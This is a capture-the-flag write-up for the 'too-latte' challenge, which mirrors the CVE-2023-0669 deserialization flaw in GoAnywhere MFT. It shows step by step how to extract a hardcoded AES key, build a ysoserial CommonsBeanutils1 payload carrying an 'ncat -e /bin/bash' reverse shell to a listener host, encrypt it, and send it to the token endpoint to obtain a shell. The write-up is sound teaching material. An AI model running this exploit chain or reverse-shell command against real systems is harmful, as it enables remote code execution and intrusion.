 `too-latte` is based almost entirely on [CVE-2023-0669](https://attackerkb.com/topics/mg883Nbeva/cve-2023-0669/rapid7-analysis),
which is an unsafe deserialization vulnerability in Fortra's GoAnywhere MFA
software. I modeled all the vulnerable code off, as much as I could, that
codebase. It's obviously themed quite differently.

If you use a tool like [jadx](https://github.com/skylot/jadx) to unpack the
servlets, you'll find, through some layers of indirection, this code in
TokenWorker.java (that operates on the `token` parameter):

```java
  public static String unbundle(String token, KeyConfig keyConfig) throws Exception {
    token = token.substring(0, token.indexOf("$"));

    return new String(decompress(verify(decrypt(decode(token.getBytes(StandardCharsets.UTF_8)), keyConfig.getVersion()), keyConfig)), StandardCharsets.UTF_8);
  }
```

The `decode` function decodes the `token` parameter from `Base64`.

The `decrypt` function decrypts the token with a static key. The actual decryption
code is under several layers of indirection, because Java is Java, but the
`TokenEncryptor` class has a key, IV, and algorithm:

```java
    private static final byte[] IV = {1, 2, 3, 4, 5, 6, 7, 8, 9, 10, 11, 12, 13, 14, 15, 16};
    private static final String KEY_ALGORITHM = "AES";
    private static final String CIPHER_ALGORITHM = "AES/CBC/PKCS5Padding";

    // [...]

    // This actually gets a key
    private byte[] getInitializationValue() throws Exception {
      return SecretKeyFactory.getInstance("PBKDF2WithHmacSHA1").generateSecret(new PBEKeySpec(new String("cafelatteTokenP@$$wrd".getBytes(), "UTF-8").toCharArray(), new byte[]{12, 56, 72, 86, 73, 99, 35, 44, 35, 97, 45, 45, 89, 23, 33, 67}, 3392, 256)).getEncoded();
    }
```

Instead of figuring out what to do, we can write our own code to call that
function the way we did in `flat-white-extra-shot`:

```java
import java.lang.reflect.Method;
import java.util.Arrays;

public class GetKey {
  public static void main(String[] args) throws Exception {
    Method method = org.bsidessf.ctf.toolatte.TokenEncryptor.class.getDeclaredMethod("getInitializationValue");
    method.setAccessible(true);
    byte []key = (byte[])method.invoke(null);
    System.out.println(Arrays.toString(key));
  }
}
```

Then compile and execute it, using the included .jar file:

```
$ javac -cp .:./TooLatte.jar GetKey.java
$ java -cp .:./TooLatte.jar GetKey
[-48, 63, 50, 98, -65, -28, -41, -100, -93, -34, -28, -105, -49, -1, 22, -54, 125, -117, -46, 123, -78, -120, -11, 104, -35, -98, 61, 65, -11, -55, 79, -20]
```

Now that we have all the crypto information, we can replicate `decrypt()`! The
next thing on our list of functions is `verify()`:

```java
  private static byte[] verify(byte[] data, KeyConfig keyConfig) throws Exception {
    ObjectInputStream objectInputStream = null;
    PublicKey publicKey = getPublicKey(keyConfig);
    ObjectInputStream objectInputStream2 = new ObjectInputStream(new ByteArrayInputStream(data));

    SignedObject signedObject = (SignedObject) objectInputStream2.readObject();

    if (!signedObject.verify(publicKey, Signature.getInstance("SHA512withRSA"))) {
        throw new IOException("Unable to verify signature! Did you send us a Token Request by mistake?");
    }

    byte[] outData = ((SignedContainer) signedObject.getObject()).getData();
    if (objectInputStream2 != null) {
        objectInputStream2.close();
    }
    return outData;
  }
```

If you're familiar with Java security, there's a huge red flag there -
`ObjectInputStream`! That's a deserialization sink - in other words, if we can
control the data going into it (which we can!), we can run arbitrary commands!

Passing the verification doesn't matter, nor does anything after it. We can now
grab [ysoserial](https://github.com/frohoff/ysoserial), create a payload,
encrypt it, and send it along.

First, let's generate a payload (I've intentionally included the necessary
files for `CommonBeanutils1` to work):

```
$ java -jar ./ysoserial-0.0.6-SNAPSHOT-all.jar CommonsBeanutils1 'ncat -e /bin/bash 10.0.0.22 4444' > /tmp/javapayload.ser
```

Then let's use `irb` (interactive Ruby) to encrypt/encode it:

```irb
$ irb
3.1.3 :001 > require 'openssl'
 => true 
3.1.3 :002 > require 'base64'
 => true 
3.1.3 :003 > payload = File.read('/tmp/javapayload.ser')
 => "\xAC\xED\u0000\u0005sr\u0000\u0017java.util.PriorityQueue\x94\xDA0\xB4\xFB?\x82\xB1\u0003\u0000\u0002I\u0000\u0004sizeL\u0000\ncomparatort\u0... 
3.1.3 :004 > cipher = OpenSSL::Cipher.new('AES-256-CBC')
 => #<OpenSSL::Cipher:0x00007fd294a25a58> 
3.1.3 :005 > cipher.encrypt
 => #<OpenSSL::Cipher:0x00007fd294a25a58> 
3.1.3 :006 > cipher.iv = "\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10"
 => "\u0001\u0002\u0003\u0004\u0005\u0006\a\b\t\n\v\f\r\u000E\u000F\u0010" 
3.1.3 :007 > cipher.key = "\xd0\x3f\x32\x62\xbf\xe4\xd7\x9c\xa3\xde\xe4\x97\xcf\xff\x16\xca\x7d\x8b\xd2\x7b\xb2\x88\xf5\x68\xdd\x9e\x3d\x41\xf5\xc9\x4f\
xec"
 => "\xD0?2b\xBF\xE4ל\xA3\xDE\xE4\x97\xCF\xFF\u0016\xCA}\x8B\xD2{\xB2\x88\xF5hݞ=A\xF5\xC9O\xEC" 
3.1.3 :008 > puts Base64::urlsafe_encode64(cipher.update(payload) + cipher.final()) + "$2"
iRNXnWJjCrdkfbDk2b[......]
```

Then we start our Netcat listener in one window:

```
$ nc -v -l -p 4444
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::4444
Ncat: Listening on 0.0.0.0:4444
```

And send that payload in another:

```
$ curl 'http://localhost:8080/validate?token=iRNXnWJjCrdkfbDk2b[......]
java.lang.RuntimeException: InvocationTargetException: java.lang.reflect.InvocationTargetException
```

And in our first window, we get a shell!

```
$ nc -v -l -p 4444
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::4444
Ncat: Listening on 0.0.0.0:4444
Ncat: Connection from 10.0.0.22.
Ncat: Connection from 10.0.0.22:37132.
whoami
tomcat
cat /flag.txt
CTF{good-work-you-saved-humanity}
```
